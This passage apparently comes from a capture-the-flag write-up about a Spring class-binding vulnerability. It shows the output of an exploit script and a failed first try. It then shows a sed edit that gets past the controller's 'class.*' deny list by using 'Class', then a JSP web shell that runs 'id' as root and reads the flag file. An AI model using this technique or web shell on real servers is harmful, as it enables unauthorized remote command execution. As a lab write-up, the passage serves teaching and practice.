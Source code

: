 ```bash
python3 exploit.py --url https://3.23.94.118:9001/panel\;a=b/status
[*] Resetting Log Variables.
[*] Response code: 500
[*] Modifying Log Configurations
[*] Response code: 500
[*] Response Code: 405
[*] Resetting Log Variables.
[*] Response code: 500
[+] Exploit completed
[+] Check your target for a shell
[+] File: shell.jsp
[+] Shell should be at: https://3.23.94.118:9001/shell.jsp?cmd=id
```

Let's check if file is actually created. 

```bash
curl https://3.23.94.118:9001/shell.jsp?cmd=id -k -s --output result && cat result && echo 
{"timestamp":"2022-04-16T07:53:36.053+00:00","status":404,"error":"Not Found","path":"/shell.jsp"}
```

It failed. Well let's dig a bit more on the Controller code. 

```java
@InitBinder
    public void initBinder(WebDataBinder binder) {
        String[] clist = {"class.*","*.class.*"};
        binder.setDisallowedFields(clist);
    }
```

We see a method `InitBinder` which has list of disallowed fields `class.*` and `*.class.*`. These are blocking our exploitation. But reading through earlier referred blogpost we find that this patch is improper as its not including `Class.*` and `*.Class.*`. Let's update our exploit to use `Class` in place of `class`. 

```bash
sed -i 's/class\./Class\./g' exploit.py
```

Running exploit again produced positive results. 

```bash
curl https://3.23.94.118:9001/shell.jsp?cmd=id -k -s --output result && cat result && echo 
uid=0(root) gid=0(root) groups=0(root)

//
```

We can find the flag at `/`. 

```bash
curl https://3.23.94.118:9001/shell.jsp?cmd=cat+/flag.txt -k -s --output result && cat result && echo 
ACVCTF{0_b0y_th4t_0n3_1s_sup3r_tr1cky}

//
```

